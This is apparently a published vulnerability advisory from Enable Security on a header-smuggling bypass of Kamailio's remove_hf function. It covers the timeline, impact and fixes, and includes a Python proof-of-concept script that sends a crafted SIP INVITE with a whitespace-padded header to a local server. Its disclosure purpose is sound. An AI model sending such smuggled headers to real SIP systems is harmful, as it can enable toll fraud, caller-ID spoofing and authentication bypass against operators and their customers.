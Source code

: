 # Kamailio vulnerable to header smuggling possible due to bypass of remove_hf

- Fixed versions: Kamailio v5.4.0
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf>
- Tested vulnerable versions: 5.3.5 and earlier
- Timeline:
    - Report date & issue patched by Kamailio:  2020-07-16
    - Kamailio rewrite for header parser (better fix): 2020-07-16 to 2020-07-23
    - Kamailio release with fix: 2020-07-29
    - Enable Security advisory: 2020-09-01

## Description

Kamailio is often configured to remove certain special internal SIP headers from untrusted traffic to protect against header injection attacks by making use of the `remove_hf` function from the Kamailio `textops` module. These SIP headers were typically set through Kamailio which are then used downstream, e.g. by a media service based on Asterisk, to affect internal business logic decisions. During our tests and research, we noticed that the removal of these headers can be bypassed by injecting whitespace characters at the end of the header name.

Further discussion and details of this vulnerability can be found at the Communication Breakdown blog: https://www.rtcsec.com/2020/09/01-smuggling-sip-headers-ftw/.

## Impact

The impact of this security bypass greatly depends on how these headers are used and processed by the affected logic. In a worst case scenarios, this vulnerability could allow toll fraud, caller-ID spoofing and authentication bypass.

## How to reproduce the issue

We prepared a docker-compose environment to demonstrate a vulnerable setup which can be found at <https://github.com/EnableSecurity/advisories/tree/master/ES2020-09-kamailio-remove-hf/repro>. The following python code could then be used to reproduce the issue:

```python
#!/usr/bin/env python3
sipmsg  = "INVITE sip:headerbypass@localhost SIP/2.0\r\n"
sipmsg += "Via: SIP/2.0/UDP 127.0.0.1:48017;rport;branch=z9hG4bK-%s\r\n"
sipmsg += "Max-Forwards: 70\r\n"
sipmsg += "From: <sip:anon@localhost>;tag=%s\r\n"
sipmsg += "To: sip:whatever@whatever.local\r\n"
sipmsg += "Call-ID: %s\r\n"
sipmsg += "CSeq: 1 INVITE\r\n"
sipmsg += "Contact: <sip:1000@127.0.0.1:48017;transport=udp>\r\n"
sipmsg += "X-Bypass-me : lol\r\n"
sipmsg += "Content-Length: 237\r\n"
sipmsg += "Content-Type: application/sdp\r\n"
sipmsg += "\r\n"
sipmsg += "v=0\r\n"
sipmsg += "o=- 1594727878 1594727878 IN IP4 127.0.0.1\r\n"
sipmsg += "s=-\r\n"
sipmsg += "c=IN IP4 127.0.0.1\r\n"
sipmsg += "t=0 0\r\n"
sipmsg += "m=audio 58657 RTP/AVP 0 8 96 101\r\n"
sipmsg += "a=rtpmap:101 telephone-event/8000/1\r\n"
sipmsg += "a=rtpmap:0 PCMU/8000/1\r\n"
sipmsg += "a=rtpmap:8 PCMA/8000/1\r\n"
sipmsg += "a=rtpmap:96 opus/8000/2\r\n"
sipmsg += "a=sendrecv\r\n"

target = ("127.0.0.1",5060)

import socket
import time
from random import randint
s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
s.bind(("0.0.0.0",5088))
r = randint(1000,9999)
data = sipmsg % (r,r,r)
s.sendto(data.encode("utf-8"), target)
while True:
    data,addr=s.recvfrom(4096)
    print(data.decode("utf-8"))
    time.sleep(5)
```

## Solutions and recommendations

The official Kamailio fix has been tested and found to sufficiently address this security flaw. We recommend making use of the latest release or backporting the fixes where possible. Making use of regular expressions to cover white-space characters with `remove_hf_re` has been suggested as mitigation for this issue for cases where the code cannot be upgraded.

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within minutes of our report being made available to him, as well as Torrey Searle for reporting this issue quickly to the Kamailio team.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

